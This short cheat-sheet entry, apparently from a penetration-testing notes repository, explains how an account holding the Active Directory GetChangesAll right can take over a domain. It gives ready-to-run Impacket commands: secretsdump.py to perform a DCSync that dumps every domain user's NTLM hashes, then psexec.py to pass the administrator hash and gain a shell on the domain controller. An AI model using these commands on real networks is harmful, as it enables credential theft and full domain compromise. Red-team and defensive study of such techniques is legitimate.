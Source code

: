 # GetChangesAll: Privilege Escalation

If current account has `GetChangesAll` permission, then a [DCSync attack](https://www.hackingarticles.in/credential-dumping-dcsync-attack/) can potentially be launched. 

1. Fetch NTLM hashes of all domain users, and take a note of domain administrator NTLM hash

        secretsdump.py -dc-ip 10.10.10.4 DOMAIN.LOCAL/username:Password123@10.10.10.4

2. Launch [Pass-the-Hash](https://attack.stealthbits.com/pass-the-hash-attack-explained) attack using [Impacket](../../../Network/Network/impacket_tools/README.md)'s `psexec.py` script

        $ psexec.py domain.local/administrator@10.10.10.4 -hashes <NTML hash>:<NTLM hash>

## References

* https://www.hackingarticles.in/credential-dumping-dcsync-attack/
* https://attack.stealthbits.com/pass-the-hash-attack-explained